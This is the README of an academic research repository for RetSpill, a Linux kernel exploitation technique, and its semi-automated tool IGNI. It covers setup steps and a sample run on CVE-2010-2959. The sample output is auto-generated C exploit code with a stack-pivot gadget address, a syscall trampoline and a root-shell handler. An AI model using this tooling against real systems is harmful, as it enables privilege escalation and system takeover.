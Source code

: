 # RetSpill

RetSpill is a Linux kernel exploitation technique.

It uses the fact that there are already user-controllable data readily on the kernel stack when attackers obtain CFHP (control-flow hijacking primitive).
Since the kernel stack for a specific thread (task) is shared, attackers can spill controlled data on the kernel stack before hand, and use stack shifting gadgets to redirect the control-flow (when CFHP is obtained) to the controlled region to launch code-reuse attack.

Using clever downstream usage of this fact, a CFHP can be turned into unlimited arbitrary read/write/execute without sacrificing the exploit reliability for heap-based vulnerability. This is because we can overwrite the function pointer on heap with a stack-shifting gadget, and invoke the function pointer again and again in different task-context. Most importantly, in each invocation, the payload on stack can be different, leading to invoking different payload without manipulating the heap, thus without introducing exploit reliability degradation.

In this work, we demonstrate that this technique is so simple that it can be semi-automated with our prototype, IGNI.

This repository contains the dataset we used in the paper and our research prototype IGNI.

# Paper

We describe our findings in the full paper

[__RetSpill: Igniting User-Controlled Data to Burn Away Linux Kernel Protections__](https://dl.acm.org/doi/abs/10.1145/3576915.3623220)

Kyle Zeng, Zhenpeng Lin, Kangjie Lu, Xinyu Xing, Ruoyu Wang, Adam, Doupé, Yan Shoshitaishvili, and Tiffany Bao

*In Proceedings of ACM CCS Nov 2023,*
```
@inproceedings{zeng2023retspill,
  author = {Zeng, Kyle and Lin, Zhenpeng and Lu, Kangjie and Xing, Xinyu and Wang, Ruoyu and Doup\'{e}, Adam and Shoshitaishvili, Yan and Bao, Tiffany},
  title = {RetSpill: Igniting User-Controlled Data to Burn Away Linux Kernel Protections},
  year = {2023},
  isbn = {9798400700507},
  publisher = {Association for Computing Machinery},
  address = {New York, NY, USA},
  url = {https://doi-org.ezproxy1.lib.asu.edu/10.1145/3576915.3623220},
  doi = {10.1145/3576915.3623220},
  booktitle = {Proceedings of the 2023 ACM SIGSAC Conference on Computer and Communications Security},
  pages = {3093–3107},
  numpages = {15},
  keywords = {os security, privilege escalation, kernel exploitation},
  location = {, Copenhagen, Denmark, },
  series = {CCS '23}
}
```

# IGNI

The name is a reference to a magical sign, [Igni](https://witcher.fandom.com/wiki/Igni), in the video game [Witcher 3: Wild Hunt](https://witcher.fandom.com/wiki/Igni#The_Witcher_3:_Wild_Hunt).
Igni can cast a burst of flame to enemies and and set enemies on fire if they are spilled with flammable substances, just like userspace input ;).

## Setup

## Method 1: Use Docker
Follow Method2-step3 to build the file system image and then run
~~~
docker build -t retspill .
~~~
to build the docker image.
Then run
~~~
docker run --privileged -it --rm retspill bash
~~~
to play with IGNI.
Notice that `privileged` is necessary because we want to run qemu inside docker with kvm acceleration.

## Method 2: Build from source

### Step 1: Install Dependencies
Install rust as instructed by its [official website](https://www.rust-lang.org/tools/install).
~~~
cargo install ropr
~~~

### Step 2: Build QEMU
Igni uses QEMU v7.2.0 internally and it has to be v7.2.0. QEMU with version lower or higher than v7.2.0 has issues reconnecting to gdb after snapshot restoration.
~~~
git clone -b v7.2.0 --depth 1 https://git.qemu.org/git/qemu.git
mkdir qemu/build && cd qemu/build && ../configure --target-list=x86_64-softmmu --python=`which python3` --disable-debug-info --enable-slirp && make -j`nproc`
~~~

### Step 3: Build File System Image
~~~
cd scripts/create-image/ && ./create-image.sh && cd ../..
~~~

## Sample Usage
Run the following command, where `<retspill>/exploit_env/CVEs/CVE-2010-2959/poc/poc` is a proof-of-concept binary that will crash the kernel at `PC==0xffffffffdeadbeef`.
~~~
python3 analyzer.py -k <retspill>/exploit_env/CVEs/CVE-2010-2959/kernel/arch/x86/boot/bzImage -e <retspill>/exploit_env/CVEs/CVE-2010-2959/poc/poc
~~~
After about 5-10 minutes, the system will output something like the following:
~~~
unsigned long pivot = 0xffffffff8194609e;
==============================================================
/******************************************************************/
/*************************AUTO GENERATED***************************/
#define _GNU_SOURCE
#ifndef va_start
#include <stdarg.h>
#endif
#ifndef assert
#include <assert.h>
#endif
#ifndef signal
#include <signal.h>
#endif
#ifndef sched_setaffinity
#include <sched.h>
#endif

// we need this because rcx may not be restored in the trampoline
// so it will crash during kernel-user switch
void get_shell(int signum) {
    printf("uid: %d\n", getuid());
    system("/bin/sh");
    while(1);
}

void __attribute__((constructor)) _igni_init() {
    signal(SIGSEGV, get_shell);
    signal(SIGTRAP, get_shell);
}

unsigned long _args[6];
unsigned long _arg_num = 0;
void __trigger()
{
    
    __asm__(".intel_syntax noprefix;"
            "push rbp;"

            "mov rcx, %0;"
            "mov rdi, [rcx+8*0];"
            "mov rsi, [rcx+8*1];"
            "mov rdx, [rcx+8*2];"
            "mov r10, [rcx+8*3];"
            "mov r8, [rcx+8*4];"
            "mov r9, [rcx+8*5];"

                        "mov rbx, 0xffffffff81e001bb;"
                        "mov rbp, 0xffffffff8244ab00;"
                        "mov r12, 0xffffffff810d0ad0;"
                        "mov r13, 0xffffffff81a373ec;"
                        "mov r10, 0xffffffff81c00162;"
            
            "mov rax, 16;"
            "syscall;"
            "pop rbp;"
            ".att_syntax;"
            : : "r"(_args));
}

void _trigger(int num_args, ...)
{
    va_list ap;
    va_start(ap, num_args);
    for(int i=0; i<num_args; i++) {
        _args[_arg_num++] = va_arg(ap, unsigned long);
    }
    va_arg(ap, unsigned long);
    va_end(ap);

    __asm__(".intel_syntax noprefix;"
            "call __trigger;"
            ".att_syntax;");
    _arg_num = 0;
    if(getuid() == 0) get_shell(0);
}

#define NUMARGS(...)  (sizeof((unsigned long[]){__VA_ARGS__})/sizeof(unsigned long))
#define ignite(...) _trigger(NUMARGS(__VA_ARGS__), __VA_ARGS__ )
/*************************AUTO GENERATED***************************/
/******************************************************************/
~~~

All you need to do is to:
1. include the generated header file
2. hijack the kernel control-flow to `unsigned long pivot = 0xffffffff8194609e;`
3. change how you invoke the triggering system call to `ignite(...)`
Then you can enjoy your root shell!!!

A sample result can be found at `<retspill>/exploit_env/CVEs/CVE-2010-2959/poc/exp.c` (the original is poc.c)
